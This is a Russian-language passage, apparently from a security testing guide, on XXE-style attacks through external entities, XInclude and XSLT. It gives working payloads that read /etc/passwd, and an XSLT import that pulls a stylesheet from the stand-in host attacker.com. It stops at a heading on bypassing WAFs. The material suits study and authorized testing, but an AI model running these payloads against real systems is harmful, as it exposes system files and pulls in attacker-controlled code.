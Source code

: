 #### 3. Чтение локальных файлов через внутренние сущности (если разрешено)
Некоторые парсеры разрешают доступ к локальным файлам через file://, даже если внешние сущности отключены
```
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<test>&file;</test>
```
Условие: Если парсер не блокирует доступ к локальным файлам через file://, содержимое /etc/passwd может быть возвращено в ответе.



#### 4. XInclude (XML Inclusions)
Механизм для включения внешних ресурсов или фрагментов данных в XML-документы.

- Если парсер обрабатывает XInclude и не настроен безопасно, это может быть использовано для атак, похожих на XXE (XML External Entity), даже если обработка DTD и внешних сущностей отключена.

- XInclude не требует DTD для работы, поэтому часто остается активным, когда DTD отключены.

**Как проверить уязвимость к XInclude?**
1. Внедрите тег `<xi:include>`:
   Отправьте XML с включением внешнего ресурса (например, файла или URL):

Пример чтения файла `/etc/passwd`:
```
<?xml version="1.0"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```
 Атрибут parse определяет, как обрабатывать содержимое:
   - parse="text" — вставить как текст.
   - parse="xml" — интерпретировать как XML (может привести к повторным инъекциям).


#### 5 Использование XSLT
XSLT (Extensible Stylesheet Language Transformations) — это язык для преобразования XML-документов. Если XSLT не настроен безопасно, это может быть использовано для атак, похожих на XXE.

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:import href="http://attacker.com/malicious.xsl"/>
</xsl:stylesheet>
```

----
# 4. Обход защит от атаки

#### 4.1. Обход WAF
